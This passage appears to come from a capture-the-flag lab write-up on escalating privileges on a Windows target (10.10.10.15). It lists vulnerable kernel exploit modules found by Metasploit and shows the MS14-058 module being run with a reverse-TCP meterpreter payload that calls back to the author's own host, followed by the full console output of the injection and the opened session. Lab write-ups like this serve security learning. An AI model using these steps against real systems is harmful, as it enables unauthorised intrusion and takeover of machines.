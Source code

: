 From all of them, the one's appear to work are:

```
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

Now I go into the session and transfer into a process that I currently own (owned by nt authority\system service).

![image](https://user-images.githubusercontent.com/41026969/71650081-ba1dcb80-2ce1-11ea-8d9f-14d1180c30c7.png)

Picking the first off the list from above, I try out the exploit ```windows/local/ms14_058_track_popup_menu```. (not forgetting to set my LHOST to my own IP).

```
msf5 exploit(windows/local/ms15_051_client_copy_image) > use exploit/windows/local/ms14_058_track_popup_menu
msf5 exploit(windows/local/ms14_058_track_popup_menu) > show options

Module options (exploit/windows/local/ms14_058_track_popup_menu):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  3                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.27      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86


msf5 exploit(windows/local/ms14_058_track_popup_menu) > set SESSION 4
SESSION => 4
msf5 exploit(windows/local/ms14_058_track_popup_menu) > exploit

[*] Started reverse TCP handler on 10.10.14.27:4444 
[*] Launching notepad to host the exploit...
[+] Process 1124 launched.
[*] Reflectively injecting the exploit DLL into 1124...
[*] Injecting exploit into 1124...
[*] Exploit injected. Injecting payload into 1124...
[*] Payload injected. Executing exploit...
[*] Sending stage (180291 bytes) to 10.10.10.15
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Meterpreter session 5 opened (10.10.14.27:4444 -> 10.10.10.15:1070) at 2020-01-01 21:53:43 -0500

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > whoami
```